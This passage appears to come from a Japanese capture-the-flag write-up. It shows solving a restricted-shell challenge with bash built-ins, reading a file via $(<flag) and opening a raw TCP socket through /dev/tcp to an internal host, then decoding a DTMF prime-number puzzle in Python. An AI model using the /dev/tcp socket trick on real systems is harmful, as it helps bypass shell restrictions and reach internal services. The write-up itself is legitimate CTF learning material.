 なるほど、`bash` の組み込みコマンド以外にはほとんど何もなさそうです。これだけで何かできないか `bash` の `man` を読んでいると、以下のような記述が見つかりました。

> The command substitution **$(cat** _file_) can be replaced by the equivalent but faster $(< _file_).

なるほどなるほど。これで `flag` が読めないか試してみましょう。

```
bash-4.4$ echo "$(<flag)"
echo "$(<flag)"
Flag has moved to 3000 port on 172.17.0.5 .
```

`172.17.0.5:3000` に接続する必要があるようです。これも `bash` だけでなんとかできないか探すと、`bash` の `man` に以下のような記述が見つかりました。

> **/dev/tcp/**_host_/_port_
>        If _host_ is a valid hostname or Internet address, and _port_ is an integer port number or service name, **bash** attempts to open the corresponding TCP socket.

これを使って接続してみましょう。

```
bash-4.4$ exec 3<> /dev/tcp/172.17.0.5/3000; ./bash <&3
exec 3<> /dev/tcp/172.17.0.5/3000; ./bash <&3
./bash: line 1: ctrctf{b4sh_1s_a_mul7ifuncti0n_sh3ll}: command not found
```

フラグが得られました。

```
ctrctf{b4sh_1s_a_mul7ifuncti0n_sh3ll}
```

## [Misc 356] prime_number (7 solves)
> it's secret call...
> https://youtu.be/-mEdbrioxqY
> 
> note : password is upper case.
> 
> author aqua
> 
> 添付ファイル: secret.zip, secret_call.wav

`secret.zip` は暗号化された ZIP ファイルです。`secret_call.wav` からパスワードを得て復号しろということでしょう。

`secret_call.wav` を再生してみると、ピポパ音が流れてきました。DTMF でしょう。適当なデコーダに通すと `53 37 11 2 67 11 61 11 41 11 41 3 11 61 7 71 41 13` を意味していることがわかります。

さて、これらの数値は何を意味するのでしょうか。問題名が `prime_number` でかついずれの数値も素数であること、ヒントとして `password is upper case.` が与えられていること (パスワードはおそらく英大文字だけで構成される) ことに注目します。その数値が i 番目の素数であれば i 番目のアルファベットに置き換えるという処理をしてみましょう。

```python
import string
primes = [2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97]
encoded = [53, 37, 11, 2, 67, 11, 61, 11, 41, 11, 41, 3, 11, 61, 7, 71, 41, 13]
print(''.join(string.ascii_uppercase[primes.index(x)] for x in encoded))
```
